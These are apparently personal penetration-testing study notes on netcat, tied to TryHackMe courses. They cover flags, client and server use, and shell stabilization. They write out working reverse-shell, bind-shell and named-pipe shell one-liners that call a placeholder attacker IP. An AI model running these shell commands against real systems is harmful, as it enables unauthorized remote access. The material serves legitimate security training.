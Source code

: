 # Using “netcat”

## Start a Client

```bash
nc $HOST $PORT
```

Some versions of netcat support a -e flag that hooks STDIN and STDOUT of an executable to the established network connection. So something like the following will establish a reverse shell:

```bash
nc -e /bin/bash $HOST $PORT
```

## Start a Server

```bash
nc -l -p $PORT $HOST
```

The $HOST specification here is optional; if left off, nc binds to 0.0.0.0.

Note that nc will exit once the first connection closes.

(According to the nc docs, it looks like `nc -l $HOST $PORT` should also work, but it doesn’t. I think — though I haven’t been able to verify — that what’s happening here is that `-p` specifies the port to *listen* to, while the port following the $HOST specification is the port to *connect* to.)

## Useful Flags

* `-l` — listen for incoming connections (rather than make an outgoing connection)
* `-v` — verbose
* `-n` — skip DNS resolution (slightly faster, less noisy on the network)
* `-p` specify the port to listen to
* `-u` connect using UDP instead of TCP

## Example Attack Patterns

Example reverse shell:

* Attacker: `nc -lvnp $LISTENER_PORT`
* Target: `nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash`

Example bind shell:

* Attacker: `nc $TARGET_IP $LISTENER_PORT`
* Target: `nc -lvnp $LISTENER_PORT -e /bin/bash`

These are almost, but not quite, mirror images of each other.

The `-e` switch isn’t available on many UNIX-like OSes. Working around this leads to the common named pipe pattern:

```bash
mkfifo /tmp/p; nc -lvnp $LISTENER_PORT < /tmp/p | /bin/sh >/tmp/p 2>&1; rm /tmp/p
```

(Note that it’s also possible to reverse the /bin/sh and nc portions of things; what important is that the named pipe lets us loop I/O between the two applications. See [the discussion of msfvenom payloads](metasploit.md) for a detailed breakdown of this pattern.)

Initial netcat reverse shells (in particular web shells) are non-interactive.

### Shell “Stabilization”

Shell “stabilization” refers to the process of making a remote shell behave like a normal local shell — so, allowing interactive programs to work properly, ensuring that input is not echoed inappropriately, etc.

A common method of stabilizing netcat shells is to use Python:

* Start an instance of bash connected to an actual PTY: `env TERM=xterm python -c 'import pty; pty.spawn("/bin/bash")'`
* Suspend the reverse shell.
* Use `stty raw -echo; fg` to switch to raw keycode transmission (so that things like arrow keys get pushed to our remote shell), turn off terminal echo (to prevent seeing commands twice), and foreground the reverse shell.

Note that the `stty` command can be canceled using `reset` (after closing the reverse shell). Since echo is turned off, typing this won't be visible. Trust the force!

You can *mostly* bypass the need for the `stty` command by using `rlwrap`, which sets all of this up for you (though it doesn’t redirect control sequences, so Ctrl+C will still kill the connection).

Or, just fire up [socat](socat.md) from inside of netcat!

NOTE that in *none* of these cases will the reverse shell pick up on your terminal size, so you’ll need to manually specify it using `stty rows` and `stty cols`.

## References

* [TryHackMe - Complete Beginner](tryhackme-complete-beginner.md)
* [TryHackMe - CC - Pen Testing](tryhackme-cc-pen-testing.md)
* [TryHackMe - Exploiting Log4j](tryhackme-exploiting-log4j.md)

- - - -

👤 Nathan Acks
